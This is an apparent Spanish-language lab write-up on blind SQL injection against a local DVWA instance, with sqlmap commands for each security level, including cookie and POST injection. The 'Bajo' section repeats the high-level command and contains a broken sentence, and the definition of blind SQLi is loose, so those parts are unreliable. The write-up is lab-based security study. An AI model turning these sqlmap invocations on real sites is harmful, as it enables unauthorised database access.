


# SQLi Blind

SQL blind es una variante de SQLi en la que el atacante no puede obtener el resultado de la consulta inyectada. Esto se debe a que la aplicación no muestra el resultado de la consulta, sino que lo devuelve a través de una ventana emergente o a través de una URL secundaria.

Se ha procedido de manera prácticamente análoga a la tarea de [SQLi](/SQLI/SQLi.md) normal. 
La única diferencia en la metodología de ataque está en el campo en el que se inyecta el código malicioso, el código presenta las mismas vulnerabilidades que en SQLi.

## Bajo

Se ha llevado a cabo la misma metodología de ataque, utilizando la con el parámetro `--dbs` Para obtener la versión del SGBD de la aplicación vulnerable basta con usar la herramienta SQLmap con una cookie interceptada y añadir el parámetro inyectable en la query de la URL:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

## Medio

En este caso la inyección se realiza a través del formulario por POST. Se obtiene el mismo resultado:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/#" --cookie "PHPSESSID=s0i2frqjujok0qsdibcem15b3s; security=medium" --data "id=1&Submit=Submit" --batch --dbs
```



## Alto

En este caso, el parámetro inyectable se encuentra en la propia cookie, por lo que hay que incluirlo en la petición maliciosa. Además, como se abre una ventana emergente y el resultado se obtiene a través de otra ruta, hay que incluir la URL secundaria para capturar los resultados de la inyección.

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

